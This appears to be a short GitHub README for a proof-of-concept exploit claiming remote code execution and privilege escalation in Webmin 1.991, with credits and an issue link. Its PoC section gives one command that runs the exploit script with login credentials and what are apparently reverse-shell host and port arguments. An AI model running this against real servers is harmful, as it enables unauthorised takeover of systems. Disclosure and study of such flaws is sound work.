 # rce_webmin
RCE and privilege escalation webmin version 1.991


# poc:

```bash
/usr/bin/env /bin/python ./exploit.py -u 'https://localhost:10000' -un 'safeusername' -pw 'safeuserpassword' -rh 'localhost' -rp 4445
```
# credits 

Thanks to the people below we got this:

V1s3r1on for finding the CVE with me. 

@chris001 for helping us out with the CVE numbers.

Rajchowdhury420 for fixing the SSL errors in console.


Track the issue here:

https://github.com/webmin/webmin/issues/1635
